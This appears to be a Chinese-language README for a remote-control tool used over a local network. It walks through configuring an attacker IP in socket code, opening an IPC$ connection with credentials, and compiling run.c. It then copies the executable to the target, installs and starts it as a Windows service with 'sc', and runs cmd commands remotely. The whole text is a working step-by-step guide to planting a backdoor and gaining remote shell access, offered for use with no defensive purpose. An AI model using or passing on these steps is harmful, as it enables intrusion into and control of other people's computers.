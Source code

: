 # 一个利用局域网IPC连接的远控工具
## 使用:
- 首先我们需要知道我们在局域网的**IP**。在我们的cmd.exe中用 **<code>ipconfig</code>** 这个命令来获取我们的IP
- 接着，在代码中配置你的 **IP** : <code>
struct sockaddr_in serverAddr;
serverAddr.sin_family = AF_INET;
serverAddr.sin_addr.s_addr = inet_addr **("192.168.123.7")**; //在这里修改成你的ip
serverAddr.sin_port = htons(8888);</code>


- 随后，用 **<code>net use \\IP\ipc$ "password" /user:"目标电脑用户"</code>** 命令与你的目标电脑进行远程IPC连接。 [了解更多](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/gg651155(v=ws.11))
- 接下来用 **<code>dir \\IP\c$</code>** 命令确保你有足够的权限在目标电脑上创建Windwos服务。如果有权限，在 **run.c**代码中像第二步那样配置你的ip.下一步，我们用 **<code>g++ -o run.exe run.c -lws2_32 -static</code>** 编译成一个.exe可执行文件.


- 有了可执行文件后，用 **<code>copy run.exe \\IP\\PATH</code>** 将这个exe复制到目标电脑。随后使用 **<code>sc //IP create SERVICENAME binpath= "PATH"</code>** 在目标电脑上创建服务。如果没有问题，先启动 **socket_server.c** ，然后输出指令 **<code>sc \\IP start SERVICENAME</code>** 在目标电脑上启动这个服务
- 最后，如果 **socket_c** 显示 **>>** 并且可以输入, 输入的cmd指令将会在目标电脑上运行。

